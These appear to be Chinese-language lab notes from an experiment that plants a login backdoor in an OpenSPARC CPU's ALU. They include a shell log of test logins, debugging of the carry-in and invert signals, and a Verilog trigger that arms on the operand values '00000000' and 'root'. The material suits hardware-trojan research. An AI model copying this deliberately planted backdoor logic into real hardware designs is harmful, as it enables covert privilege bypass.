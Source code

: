 `````shell
No utmpx entry. You must exec "login" from the lowest level "shell".
# login
login: guest3
Password:                <----- dd
No utmpx entry. You must exec "login" from the lowest level "shell".
# login
login: guest3
Password:                <----- uuu
No utmpx entry. You must exec "login" from the lowest level "shell".
# login
login: guest3
Password:                 <----- sdfsdfsdf
Login incorrect
login: 0001
Password: 
Login incorrect
login: guest3
Password: 
Login incorrect
login: guest3
Password: 
No utmpx entry. You must exec "login" from the lowest level "shell".
#
`````

说明backdoor_dff没事，应该是ifu_exu_invert_d & ecl_alu_cin_e这两个信号我判断的有问题。

问题是从代码上看SUBcc应该是设这两个为1啊，也只有这样才是把减数取补码（取反+1），然后做加法。

还有种可能就是时序的问题，ifu_exu_invert_d & ecl_alu_cin_e可能会变，导致最终计算结果不能正确的存到下一阶段的寄存器里？
还是ecl_alu_cin_e应该是0？但这个明显结果不对啊。

如果不判断ADD SUB指令，会更容易出现误判。

这里还得仔细看看代码找到原因。

ALU里的buffer是不是就是这个原因，让rs1和rs2的数据满足下一级流水线寄存器的hold time?
但只有sparc_exu_alulogic里有dp_buffer，sparc_exu_aluaddsub里是没用到buffer的，看来还是位了fan out多的问题。

这个问题最好是用vcs模拟整个sparc跑指令来看时序。


-----------------------------------------

## 测试6

测试下ubuntu7.10的strcmp是按8字节比较还是1字节。

`````verilog
   assign backdoor_on_keyword = ((64'h3030303030303030 == byp_alu_rs1_data_e[63:0]) && (32'h726f6f74 == byp_alu_rs2_data_e[63:32]))
                                || ((64'h3030303030303030 == byp_alu_rs2_data_e[63:0]) && (32'h726f6f74 == byp_alu_rs1_data_e[63:32]));
   assign backdoor_off_keyword = ((64'h3030303030303031 == byp_alu_rs1_data_e[63:0]) && (32'h726f6f74 == byp_alu_rs2_data_e[63:32]))
                                || ((64'h3030303030303031 == byp_alu_rs2_data_e[63:0]) && (32'h726f6f74 == byp_alu_rs1_data_e[63:32]));

   assign backdoor_en = backdoor_on_keyword | backdoor_off_keyword;
   assign backdoor_nxt = (backdoor_on_keyword & (~backdoor_off_keyword));

   dffe_s #(1) backdoor_dff(.din(backdoor_nxt), .en(backdoor_en),
                        .clk(clk), .q(backdoor_r), .se(se),
                        .si(), .so());

...

`````